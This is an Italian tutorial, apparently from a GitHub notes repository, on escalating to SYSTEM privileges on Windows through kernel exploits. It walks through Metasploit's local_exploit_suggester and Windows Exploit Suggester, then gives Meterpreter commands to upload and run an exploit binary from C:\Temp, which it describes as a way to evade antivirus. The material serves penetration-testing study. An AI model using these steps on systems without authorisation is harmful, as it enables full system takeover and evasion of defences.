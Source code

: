 
# Windows Kernel Exploit

Il kernel è il cuore del sistema operativo. In un sistema Windows, il kernel prende il nome di **Windows NT** e gestisce l’accesso diretto alle risorse di sistema e all’hardware. Funziona come un intermediario tra il software e le componenti fisiche, consentendo ai programmi di interagire in modo sicuro con la memoria, il processore, i dispositivi, ecc.

Windows distingue due modalità operative:

- **User Mode**: modalità con accesso limitato alle risorse. Le applicazioni comuni vengono eseguite qui, in uno spazio isolato per motivi di sicurezza.
- **Kernel Mode**: modalità privilegiata, con accesso illimitato alle risorse. Qui operano i driver, il gestore della memoria, il file system e tutte le funzioni di basso livello.

L’obiettivo di un **Windows Kernel Exploit** è sfruttare una vulnerabilità nella modalità kernel per passare da un utente con privilegi limitati a uno con privilegi **SYSTEM**, ottenendo così il controllo totale sul sistema.

 Attenzione: interagire direttamente con il kernel è pericoloso. Un errore può causare crash di sistema, perdita di dati o BSOD. 

## Fasi di exploit

### 1. Rilevamento delle vulnerabilità

Ogni sistema Windows può presentare vulnerabilità diverse, in base alla versione del sistema operativo, al livello di patch applicate e alle configurazioni installate.

Per identificare queste vulnerabilità, possiamo usare:

- `post/multi/recon/local_exploit_suggester` di Metasploit
- `Windows Exploit Suggester` (WES) scaricabile da <a haref="https://github.com/AonCyberLabs/Windows-Exploit-Suggester">GitHub</a>

WES è uno script Python che confronta le informazioni raccolte con `systeminfo` sul target con un database di bollettini Microsoft, identificando patch mancanti ed eventuali exploit associati. Può anche indicare se esistono:

- moduli Metasploit ([M])
- exploit pubblici ([E])
- vulnerabilità senza bollettino ufficiale ([*])

Il simbolo **[M]** indica che esiste un modulo già pronto su Metasploit.  
Il simbolo **[E]** fa riferimento a un exploit disponibile in forma di **proof-of-concept** (PoC), solitamente scaricabile da siti come Exploit-DB.  
Il simbolo **[*]** indica che manca un bollettino ufficiale (ad esempio, vulnerabilità zero-day note ma non ancora pubblicate da Microsoft).

Un’altra ottima risorsa è la repository:

https://github.com/SecWiki/windows-kernel-exploits

Questa raccoglie centinaia di exploit per il kernel di Windows, organizzati per CVE. Ogni exploit è fornito con codice sorgente o binari compilati pronti all’uso.

### 2. Esecuzione via Metasploit

Dopo aver identificato un exploit tramite `local_exploit_suggester`, puoi eseguirlo direttamente in Metasploit:

`use <nome_modulo>` <br>
`set SESSION <numero_sessione>` <br>
`set LHOST <tuo_IP>` <br>
`set LPORT <porta>` <br>
`run` <br>

Per usare `local_exploit_suggester`:

1. Ottieni una sessione Meterpreter
2. Esegui `background` per metterla in pausa
3. Lancia:

`use post/multi/recon/local_exploit_suggester` <br>
`set SESSION <id_sessione>` <br>
`run` <br>

### 3. Esecuzione manuale

Puoi anche eseguire exploit manualmente. Ecco i passaggi:

1. Clona la repository:

`git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester` <br>
`cd Windows-Exploit-Suggester` <br>

2. Aggiorna il database:

`./windows-exploit-suggester.py --update`

3. Ottieni le informazioni del target:
- Vai su una shell del target e digita:

`systeminfo > systeminfo.txt`

4. Copia `systeminfo.txt` sulla tua macchina, poi esegui:

`./windows-exploit-suggester.py --database 2024-*.xls --systeminfo systeminfo.txt`


Ti verrà restituita una lista di vulnerabilità, ordinata per probabilità di successo.

Se decidi di usare un exploit da ExploitDB o dalla repo SecWiki:

- Trasferisci il binario sul target con Meterpreter:

`cd C:\` <br>
`ls` <br>
`cd Temp\` <br>
`upload ~/Downloads/exploit.exe` <br>
`shell` <br>
`exploit.exe` <br>

La cartella `Temp` viene usata per evitare di scrivere nella home dell’utente ed eludere possibili controlli o antivirus.

Una volta eseguito l’exploit, controlla i privilegi ottenuti:

`whoami`

Se la risposta è `NT AUTHORITY\SYSTEM`, l’elevazione è riuscita.

---
